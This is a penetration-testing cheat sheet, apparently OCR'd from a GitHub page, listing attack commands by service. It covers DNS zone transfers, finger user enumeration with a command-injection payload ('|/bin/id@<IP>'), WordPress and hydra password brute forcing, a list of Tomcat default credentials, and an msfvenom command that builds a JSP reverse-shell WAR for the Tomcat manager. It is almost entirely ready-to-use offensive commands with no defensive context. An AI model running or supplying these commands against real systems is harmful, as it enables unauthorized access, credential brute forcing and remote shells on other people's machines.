 **Zone transfert**
> dnsrecon -d <DOMAIN> -a
> dig axfr <DOMAIN> @ns1.test.com

**DNS brute force**

- https://github.com/blark/aiodnsbrute

# FINGER - 79

**User enumeration**
> finger @<IP>
> finger <USER>@<IP>

**Command execution**
> finger "|/bin/id@<IP>"
> finger "|/bin/ls -a /<IP>"

# HTTP - HTTPS - 80 - 443

**Automatic scanners**
> nikto -h <URL>
> python crawleet.py -u <URL> -b -d 3 -e jpg,png,css -f -m -s -x php,txt -y --threads 20

**Wordpress**

**Scan**
> wpscan --rua -e --url <URL>

**Brute force user(s)**
> wpscan --rua --url <URL> -P <PASSWORDS_LIST> -U "<USER>,<USER>"

# Tomcat

**Default credentials**

The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But  this path is protected by basic HTTP auth, the most common credentials are :

> admin:admin
> tomcat:tomcat
> admin:<NOTHING>
> admin:s3cr3t
> tomcat:s3cr3t
> admin:tomcat

**Brute force**
> hydra -L <USERS_LIST> -P <PASSWORDS_LIST> -f <IP> http-get /manager/html -vV -u

**Tomcat panel RCE**
# Generate payload **
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
